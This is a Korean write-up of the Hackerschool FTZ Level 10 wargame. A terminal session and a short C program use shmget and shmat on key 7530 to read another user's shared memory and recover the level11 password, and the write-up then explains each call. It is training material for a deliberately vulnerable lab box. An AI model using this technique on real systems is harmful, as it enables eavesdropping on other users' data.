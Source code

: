 # Hackerschool FTZ Level 10

```
login as: level10
level10@192.168.18.131's password:
[level10@ftz level10]$ ls
hint  program  public_html  tmp
[level10@ftz level10]$ cat hint


두명의 사용자가 대화방을 이용하여 비밀스런 대화를 나누고 있다.
그 대화방은 공유 메모리를 이용하여 만들어졌으며,
key_t의 값은 7530이다. 이를 이용해 두 사람의 대화를 도청하여
level11의 권한을 얻어라.

- 레벨을 완료하셨다면 소스는 지우고 나가주세요.


[level10@ftz level10]$ cd tmp
[level10@ftz tmp]$ vi start.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/shm.h>
#include <sys/ipc.h>
#include <sys/types.h>

int main(void){
        int shmid = shmget(7530, 1024, IPC_EXCL|0660);
        char* shm = shmat(shmid, NULL, 0);
        printf("%s\n", shm);
        shmdt(shm);
        return 0;
}
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
"start.c" 13L, 244C                                           1,1           All
```

```
[level10@ftz tmp]$ gcc -o start start.c
[level10@ftz tmp]$ ./start
멍멍: level11의 패스워드는?
구타: what!@#$?

[level10@ftz tmp]$
```

공유메모리의 사용을 묻는 문제이다. 힌트를 보면

```
두명의 사용자가 대화방을 이용하여 비밀스런 대화를 나누고 있다.
그 대화방은 공유 메모리를 이용하여 만들어졌으며,
key_t의 값은 7530이다. 이를 이용해 두 사람의 대화를 도청하여
level11의 권한을 얻어라.
```

라고 한다. `start.c` 파일에 코딩을 하여 이 공유 메모리를 읽어왔다.

`shmget` 함수는 `key_t` 값을 이용하여 공유메모리의 ID를 새로 만들거나 얻는 함수이다.

`shmid` 에 공유메모리의 id를 담았으니 다음은 그 주소를 얻기 위하여 `shmat` 함수를 사용한다.

마지막으로 `shmdt` 함수를 사용하여 현제 프로세스에서 공유 메모리 사용을 해제해준다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/shm.h>
#include <sys/ipc.h>
#include <sys/types.h>

int main(void){
        int shmid = shmget(7530, 1024, IPC_EXCL|0660);
        char* shm = shmat(shmid, NULL, 0);
        printf("%s\n", shm);
        shmdt(shm);
        return 0;
}
```